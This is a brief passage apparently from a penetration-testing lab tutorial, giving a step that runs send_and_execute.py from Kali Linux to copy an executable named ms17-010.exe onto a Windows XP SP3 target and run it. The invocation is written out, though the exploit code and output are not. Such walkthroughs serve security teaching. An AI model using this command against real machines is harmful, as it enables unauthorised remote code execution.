

3.4 Fire the exploit
This exploits copies an executable over to the target’s C:\> and runs it. In your Kali Linux Machine go to the directory “winxpsp3” and run the following.
$python
send_and_execute.py 192.168.12.23 ms17-010.exe
Output:

Index